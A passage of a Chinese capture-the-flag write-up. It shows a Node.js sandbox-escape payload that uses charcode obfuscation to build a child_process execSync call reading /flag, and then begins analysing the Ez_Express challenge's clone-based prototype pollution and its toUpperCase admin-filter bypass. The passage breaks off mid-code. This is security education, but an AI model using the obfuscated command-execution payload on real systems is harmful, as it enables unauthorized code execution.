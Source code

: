 箭头函数表示自调用`(()=>())()`，例子：

```javascript
let a = function () {
    console.log("123123");
};

a();

let b = (x) => {
    console.log(x);
};
b(123);

let c = (x) => console.log(x);
c(123);
```

最终payload：

```javascript
(Math=>
    (Math=Math.constructor,
            Math.constructor(
                Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,
                    99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,
                    46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,
                    95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,
                    121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()
    )
)(Math+1)
```

## [GYCTF2020]Ez_Express

www.zip下载，在route/index.js，有merge和clone，那就是了，

```javascript
router.post('/action', function(req, res) {
    if (req.session.user.user != "ADMIN") { res.end("<script>alert('ADMIN is asked');history.go(-1);</script>") }
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
```

需要是admin才能clone，login：

```javascript
function safeKeyword(keyword) {
    if (keyword.match(/(admin)/is)) {
        return keyword
    }

    return undefined
}
router.post('/login', function(req, res) {
    if (req.body.Submit == "register") {
        if (safeKeyword(req.body.userid)) {
            res.end("<script>alert('forbid word');history.go(-1);</script>")
        }
        req.session.user = {
            'user': req.body.userid.toUpperCase(),
            'passwd': req.body.pwd,
            'isLogin': false
        }
        res.redirect('/');
```